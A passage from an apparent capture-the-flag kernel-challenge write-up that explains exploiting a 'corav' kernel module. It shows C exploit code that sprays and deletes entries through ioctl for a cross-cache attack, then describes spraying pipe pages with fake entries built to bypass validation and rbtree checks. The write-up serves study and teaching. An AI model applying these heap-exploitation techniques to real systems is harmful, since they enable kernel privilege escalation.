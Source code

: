 As a result, I revised my exploit by following the author's approach and **using a pipe fd** to store data:
1. Open a pipe.
2. Use the write-end to store data.
3. Pass the read-end to the command handler.

Except for the file path, the cross-cache for `corav_entry` is similar to another kernel challenge. The relevant code snippet can be found in the exploit:

``` c
// [...]
printf("[+] create user entries in CPU-0\n");
{
    pin_on_cpu(0);
    struct corav_user_entry ue = {};
    strcpy(ue.path, tmp_file_path);

    for (val = 0; val < 0x2000; val++) {
        set_tmp_data(val);
        SYSCHK(ioctl(corav_fd, CORCTL_INSERT, &ue));

        if (val == 0x1000) {
            target_sig = ue.sig;
            printf("[+] target sig: %016lx\n", target_sig);
        }
    }
}

// [...]

printf("[+] delete all user entries\n");
{
    struct corav_user_entry ue = {};
    strcpy(ue.path, tmp_file_path);

    for (val = 0; val < 0x2000; val++) {
        set_tmp_data(val);
        SYSCHK(ioctl(corav_fd, CORCTL_DELETE, &ue));
    }
}
// [...]
```

### 3.3. Spray the Pipe Page

By default, a pipe is allocated 16 pages. Therefore, one can either create many pipes and use only a single page from each, or create fewer pipes and fully populate all 16 pages. In my exploit, I chose the latter approach.

Moreover, since `corav_verify_entry()` validates the entry object and is invoked frequently, and `corav_remove_entry()` treats the `->node` field as an rbtree node, it is necessary to craft fake entries with a non-zero signature, a valid magic number, and a properly initialized rbtree structure. Luckily, setting these fields to `NULL` appears sufficient to bypass all the checks inside `__rb_erase_augmented()`.
